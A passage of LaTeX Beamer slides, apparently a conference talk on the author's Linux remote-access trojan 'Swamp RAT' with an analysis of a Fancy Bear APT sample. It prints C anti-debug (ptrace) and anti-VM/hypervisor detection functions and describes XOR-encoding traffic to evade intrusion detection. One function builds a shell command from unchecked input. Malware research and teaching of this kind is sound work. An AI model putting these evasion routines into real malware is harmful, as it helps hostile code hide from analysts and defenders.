      
\includegraphics[width=14cm,keepaspectratio]{tcp_xor_dataframe}
      \caption{Find Fast Pattern Here?}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Evasion}
  \framesubtitle{Performance:Detection}
  \begin{center}
    
\includegraphics[width=14cm,keepaspectratio]{server_room_fire}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Evasion}
  \framesubtitle{The Debugger}
  \begin{center}
    
\includegraphics[width=14cm,keepaspectratio]{debugger}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{Evasion}
  \framesubtitle{The Debugger}
  \begin{center}
    \begin{tcolorbox}[title=re.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        bool re_ptrace(){
          if (ptrace(PTRACE_TRACEME, // __ptrace request
                     0,              // pid_t
                     1,              // *addr
                     0               // *data
             ) < 0){
            return true;
          } else{
            return false;
          }
        }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Evasion}
  \framesubtitle{PTRACE\_TRACEME}
  \begin{tcolorbox}[title=ptrace.log,colback=gray]
    PTRACE\_TRACEME \\
       Indicate that this process is to be traced by its parent.  A process probably shouldn't  make this request if its parent isn't expecting to trace it. (pid, addr, and data are ignored.)\\
  \end{tcolorbox}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{Evasion}
  \framesubtitle{The Virtual Machine 0}
  \begin{center}
    \begin{tcolorbox}[title=re.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        bool re_kernel_module(char *kernel_module){
          if (strlen(kernel_module) + 16 > RE_BASH_COMMAND_MAX_LEN){
            fprintf(stderr, "[x] kernel module name length exceeds limitations\n");
            return false;
          }
          char command[RE_BASH_COMMAND_MAX_LEN];
          sprintf(command, "grep -Po '^%s\x20' /proc/modules", kernel_module);
          FILE *fd = popen(command, "r");
          if (fd == NULL){
            fprintf(stderr, "[x] failed to read kernel module list");
            return false;
          }
          char buff[RE_KERNEL_MODULE_NAME_MAX_SIZE];
          memset(buff, 0, sizeof(buff));
          fread(buff, 1, strlen(kernel_module), fd);
          if (strncmp(buff, kernel_module, strlen(kernel_module)) == 0){
            return true;
          } else{
            return false;
          }
        }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{Evasion}
  \framesubtitle{The Virtual Machine 1}
  \begin{center}
    \begin{tcolorbox}[title=re.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        bool re_kernel_modules(){
          if (re_kernel_module("virtio") == true){
            return true;
          } else if (re_kernel_module("vboxvideo") == true){
            return true;
          } else if (re_kernel_module("vboxguest") == true){
            return true;
          } else if (re_kernel_module("vboxsf") == true){
            return true;
          } else{
            return false;
          }
        }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{Evasion}
  \framesubtitle{The Hypervisor}
  \begin{center}
    \begin{tcolorbox}[title=re.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        bool re_hypervisor(){
          char hypervisor[] = "hypervisor";
          char command[] = "grep -m 1 -Po 'hypervisor' /proc/cpuinfo";
          char buff[RE_KERNEL_MODULE_NAME_MAX_SIZE];
          FILE *fd = popen(command, "r");
          if (fd == NULL){
            fprintf(stderr, "[x] failed to read cpuinfo");
            return false;
          }
          memset(buff, 0, sizeof(buff));
          fread(buff, 1, strlen(hypervisor), fd);
          if (strncmp(buff, hypervisor, strlen(hypervisor)) == 0){
            return true;
          } else{
            return false;
          }
        }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Anyone else doing it right?}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=9cm,keepaspectratio]{doing_it_right}
      \caption{Doing something right!}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Anyone else doing it right?}
  \framesubtitle{These Guys}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=9cm,keepaspectratio]{fancy_bear}
      \caption{Fancy Bear APT}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Anyone else doing it right?}
  \framesubtitle{Fancy Bear Analysis - Entropy}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=6cm,keepaspectratio]{fancy_bear_portex_analyzer}
      \caption{Entropy Analysis with PortexAnalyzer}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Anyone else doing it right?}
  \framesubtitle{Fancy Bear Analysis - What Are We Dealing With?}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=14cm,keepaspectratio]{fancy_bear_die}
      \caption{Detect it Easy}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Anyone else doing it right?}
  \framesubtitle{Fancy Bear Analysis - inst}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=14cm,keepaspectratio]{fancy_bear_analysis_0}
      \caption{inst export is rather odd}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Anyone else doing it right?}
  \framesubtitle{Fancy Bear Analysis - .NET Injection in C++}
  \begin{center}
    \begin{figure}
      \includegraphics[width=9cm,keepaspectratio]{fancy_bear_analysis_1}
      \caption{.NET Assembly Injection Function}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Anyone else doing it right?}
  \framesubtitle{Fancy Bear Analysis - .NET Injection in C++}
  \begin{center}
    \begin{figure}
      \includegraphics[width=8cm,keepaspectratio]{fancy_bear_analysis_2}
      \caption{CLRCreateInstance .NET Assembly Injection Setup}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Anyone else doing it right?}
  \framesubtitle{Fancy Bear Analysis - .NET Injection in C++ SafeArrays}
  \begin{center}
    \begin{figure}
      \includegraphics[width=6cm,keepaspectratio]{fancy_bear_analysis_3}
      \caption{Somewhere between SafeArrayUnlock and SafeArrayDestroy}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Anyone else doing it right?}
  \framesubtitle{Fancy Bear Analysis - .NET Injection in C++ Payload}
  \begin{center}
    \begin{figure}
      \includegraphics[width=13cm,keepaspectratio]{fancy_bear_analysis_4}
      \caption{The .NET Assembly Payload}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Anyone else doing it right?}
  \framesubtitle{Fancy Bear Analysis - .NET Injection in C++ Payload}
  \begin{center}
    \begin{figure}
      \includegraphics[width=4cm,keepaspectratio]{fancy_bear_analysis_5}
      \caption{Payload Metadata}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Anyone else doing it right?}
  \framesubtitle{Fancy Bear Analysis - Payload Entropy}
  \begin{center}
    \begin{figure}
      \includegraphics[width=14cm,keepaspectratio]{fancy_bear_analysis_6}
      \caption{Payload Entropy}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Anyone else doing it right?}
  \framesubtitle{Fancy Bear Analysis - CnC}
  \begin{center}
    \begin{figure}
      \includegraphics[width=9cm,keepaspectratio]{fancy_bear_analysis_7}
      \caption{CnC from Payload}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Anyone else doing it right?}
  \framesubtitle{Fancy Bear Analysis - CnC Communication Example}
  \begin{center}
    \begin{figure}
      \includegraphics[width=14cm,keepaspectratio]{fancy_bear_analysis_8}
      \caption{CnC Example Communication}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Anyone else doing it right?}
  \framesubtitle{Fancy Bear Analysis - CnC Encrypted Dataframes}
  \begin{center}
    \begin{figure}
      \includegraphics[width=10cm,keepaspectratio]{fancy_bear_analysis_9}
      \caption{Encrypted Dataframes}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Anyone else doing it right?}
  \framesubtitle{Fancy Bear Analysis - Unpacking Demo}
  \begin{center}
    \begin{figure}
      \includegraphics[width=9cm,keepaspectratio]{demo_serious}
      \caption{It's getting serious!}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Anyone else doing it right?}
  \framesubtitle{Fancy Bear Analysis - Doing it Right!}
  \begin{center}
    \begin{figure}
      \includegraphics[width=8cm,keepaspectratio]{powder_blues}
      \caption{Doing it right on the wrong side of town!}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Summary}
  \framesubtitle{What did I learn}
  \begin{itemize}
  \item{TCP Socket Programming Sucks}
  \item{Bypass NIDS with XOR TCP Dataframes}
  \item{Anti-Debug / Anti-VM Linux Techniques}
  \item{NCurses Looks Cool}
  \item{Everything in Terminal is Better}
  \end{itemize}
\end{frame}

\begin{frame}
  \frametitle{Swamp RAT Demo}
  \begin{center}
    \includegraphics[width=7cm,keepaspectratio]{demo_meme}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Anyone else doing it right?}
  \framesubtitle{Buy my malware?}
  \begin{center}
    \includegraphics[width=5.5cm,keepaspectratio]{malware_the_rock_meme}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Questions}
  \begin{center}
    \includegraphics[width=7cm,keepaspectratio]{questions}
  \end{center}
